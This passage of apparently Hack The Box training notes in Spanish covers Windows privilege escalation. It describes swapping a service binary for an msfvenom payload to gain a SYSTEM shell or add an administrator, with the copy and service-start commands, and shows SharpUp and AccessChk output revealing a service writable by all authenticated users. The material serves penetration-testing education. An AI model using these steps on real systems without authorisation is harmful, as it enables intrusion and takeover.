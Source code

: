 ### Replacing Service Binary

Este servicio también puede ser iniciado por usuarios sin privilegios, por lo que podemos hacer una copia de seguridad del binario original y reemplazarlo con un binario malicioso generado con `msfvenom`. Esto puede darnos un reverse shell como `SYSTEM`, o agregar un usuario administrador local y darnos control administrativo total sobre la máquina.

```r
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService
```

---

## Weak Service Permissions

### Reviewing SharpUp Again

Vamos a revisar de nuevo la salida de `SharpUp` en busca de servicios modificables. Vemos que el `WindscribeService` está potencialmente mal configurado.

```r
C:\htb> SharpUp.exe audit
 
=== SharpUp: Running Privilege Escalation Checks ===
 
 
=== Modifiable Services ===
 
  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"
```

### Checking Permissions with AccessChk

A continuación, usaremos [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) de la suite Sysinternals para enumerar permisos en el servicio. Las banderas que usamos, en orden, son `-q` (omitir banner), `-u` (suprimir errores), `-v` (detallado), `-c` (especificar el nombre de un servicio de Windows) y `-w` (mostrar solo objetos que tienen acceso de escritura). Aquí podemos ver que todos los Authenticated Users tienen derechos de [SERVICE_ALL_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights) sobre el servicio, lo que significa control total de lectura/escritura sobre él.

```r
C:\htb> accesschk.exe /accepteula -quvcw WindscribeService
 
Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com
 
WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
```
